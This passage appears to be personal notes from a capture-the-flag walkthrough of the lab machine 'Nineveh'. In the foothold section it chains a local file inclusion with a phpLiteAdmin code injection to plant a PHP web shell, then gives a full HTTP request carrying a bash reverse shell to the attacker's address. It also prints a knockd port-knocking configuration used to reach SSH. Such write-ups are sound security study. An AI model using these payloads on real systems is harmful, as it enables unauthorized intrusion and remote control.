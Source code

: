 
# Foothold

## www-data

- Logging in using the credentials, we get a page called as notes from http://10.10.10.43/departments/manage.php
![[Pasted image 20210331020703.png]]
- But the link shows a case of local file inclusion `http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt`.
- Thus from [[10 - Web Server#Port 443]] we saw a login to phpLiteadmin and a remote PHP code injection bug also. So we can create a database, and create a table called ninevehNotes, and then put `<?php echo system($_REQUEST["sad"])?>` as the field name
- We can rename the database as ninevehNotes.php
- We can see it is stored at `/var/tmp/ninevehNotes.php`
- We can now visit the page from the LFI bug and set our parameter `sad=ls`, this will give us remote code execution.
- We can get a reverse shell by sending the request through burp and running a listener on the local machine.
```bash
POST /department/manage.php?notes=/var/tmp/ninevehNotes.php HTTP/1.1
Host: 10.10.10.43
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=6am0khatc9bb9p5gddbepd2v83
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 58

sad=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.5/9001+0>%261'
```

# Privilege Escalation

## amrois

- We can now run linpeas.sh, and we can see that ssh is locally listening but our nmap scan from [[Nineveh/05 - Enumeration#Nmap]] didn't give us an open port.
- Checking /etc we can see a knockd configuration, which is a tool for port knocking.
```bash
www-data@nineveh:/var/www/html/department$ cat /etc/knockd.conf 
[options]
 logfile = /var/log/knockd.log
 interface = ens160

[openSSH]
 sequence = 571, 290, 911 
 seq_timeout = 5
 start_command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

[closeSSH]
 sequence = 911,290,571
 seq_timeout = 5
 start_command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

```